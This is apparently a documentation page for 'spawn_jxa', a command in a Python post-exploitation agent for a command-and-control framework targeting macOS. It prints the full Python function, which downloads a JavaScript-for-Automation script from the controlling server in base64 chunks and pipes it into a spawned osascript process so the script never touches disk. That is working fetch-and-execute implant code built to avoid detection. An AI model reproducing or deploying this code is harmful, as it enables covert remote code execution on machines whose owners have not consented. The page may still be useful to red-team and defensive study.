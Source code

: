 +++
title = "spawn_jxa"
chapter = false
weight = 100
hidden = false
+++

## Summary

This spawns a new instance of `osascript` and uses the subprocess library to pipe uploaded JXA script content to it, preventing the need to drop any script to disk.  

- Python Versions Supported: 2.7, 3.8
- Needs Admin: False  
- Version: 1  
- Author: @ajpc500  

### Arguments

#### file

- Description: script file to load into agent
- Required Value: True  
- Default Value: None  

## Usage

```
spawn_jxa
```

## Detailed Summary

The python script is downloaded and executed by piping content to the stdin of the newly spawned `osascript` process.

```Python
    def spawn_jxa(self, task_id, file):
        import os
        import subprocess
        
        total_chunks = 1
        chunk_num = 0
        cmd_code = ""
        while (chunk_num < total_chunks):
            if [task for task in self.taskings if task["task_id"] == task_id][0]["stopped"]:
                return "Job stopped."
            data = { "action": "post_response", "responses": [
                    { "upload": { "chunk_size": CHUNK_SIZE, "file_id": file, "chunk_num": chunk_num+1 }, "task_id": task_id }
                ]}
            response = self.postMessageAndRetrieveResponse(data)
            chunk = response["responses"][0]
            chunk_num+=1
            total_chunks = chunk["total_chunks"]
            cmd_code += base64.b64decode(chunk["chunk_data"]).decode()
            
        if cmd_code: 
            osapipe = subprocess.Popen(["osascript", "-l", "JavaScript", "-"], stdin=subprocess.PIPE, stdout=subprocess.PIPE, 
                stderr=subprocess.PIPE)

            osapipe.stdin.write(cmd_code.encode())
            stdout, stderr = osapipe.communicate()
            out = stderr if stderr else stdout
            return str(out)
        else: return "Failed to load script"

```